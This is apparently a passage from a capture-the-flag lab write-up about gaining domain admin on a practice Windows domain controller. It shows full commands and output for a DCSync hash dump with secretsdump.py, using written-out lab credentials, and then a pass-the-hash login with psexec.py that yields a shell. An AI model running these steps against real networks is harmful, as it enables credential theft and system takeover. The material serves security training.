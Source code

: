 User flag: `b05fb166688a8603d970c6d033f637f1`

# Privilege Escalation

In order to leverage the `GetChangesAll` permission, we can use Impacket's [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to perform a DCSync attack and dump the NTLM hashes of all domain users.

~~~
unknown@kali:/data/tmp$ secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:31127e243e15f26a3bd4df6559b838d3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:948294a2708ba0a1d36304404c71f70d2aaa38df4dbc49e63a31eb6611249db3
PATHFINDER$:aes128-cts-hmac-sha1-96:2aa7ad6034d5374dbcccf3a0f8ec0ed2
PATHFINDER$:des-cbc-md5:32f44fb9dce325f7
[*] Cleaning up... 
unknown@kali:/data/tmp$ 
~~~

Using the default domain administrator NTLM hash, we can use this in a PTH attack to gain elevated access to the system. For this, we can use Impacket's psexec.py.

~~~
psexec.py megacorp.local/administrator@10.10.10.30 -hashes <NTML hash>:<NTLM hash>
~~~

~~~
unknown@kali:/data/tmp$ psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.30.....
[*] Found writable share ADMIN$
[*] Uploading file JELeSnSZ.exe
[*] Opening SVCManager on 10.10.10.30.....
[*] Creating service Zbrk on 10.10.10.30.....
[*] Starting service Zbrk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

~~~